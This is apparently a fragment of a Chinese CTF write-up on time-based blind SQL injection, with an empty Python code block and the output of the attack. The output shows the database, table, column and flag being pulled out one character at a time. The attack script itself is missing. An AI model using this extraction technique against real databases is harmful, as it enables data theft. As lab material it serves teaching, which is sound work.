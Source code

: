 ```python
```

输出结果如下：

```shell
probe db_name:
database: s
database: sq
database: sql
database: sqli
Time: 56.579747915267944 seconds

probe table_name:
table: n
table: ne
table: new
table: news
table: news,
table: news,f
table: news,fl
table: news,fla
table: news,flag
Time: 94.11818170547485 seconds

probe column_name:
column: f
column: fl
column: fla
column: flag
Time: 46.16322708129883 seconds

probe flag:
flag: c
flag: ct
flag: ctf
flag: ctfh
flag: ctfhu
flag: ctfhub
flag: ctfhub{
flag: ctfhub{8
flag: ctfhub{85
flag: ctfhub{851
flag: ctfhub{851b
flag: ctfhub{851b6
flag: ctfhub{851b66
flag: ctfhub{851b66a
flag: ctfhub{851b66af
flag: ctfhub{851b66af4
flag: ctfhub{851b66af41
flag: ctfhub{851b66af41f
flag: ctfhub{851b66af41ff
flag: ctfhub{851b66af41ff5
flag: ctfhub{851b66af41ff53
flag: ctfhub{851b66af41ff531
flag: ctfhub{851b66af41ff5312
flag: ctfhub{851b66af41ff5312b
flag: ctfhub{851b66af41ff5312b8
flag: ctfhub{851b66af41ff5312b81
flag: ctfhub{851b66af41ff5312b816
flag: ctfhub{851b66af41ff5312b8167
flag: ctfhub{851b66af41ff5312b81674
flag: ctfhub{851b66af41ff5312b816748
flag: ctfhub{851b66af41ff5312b8167487
flag: ctfhub{851b66af41ff5312b8167487}
```
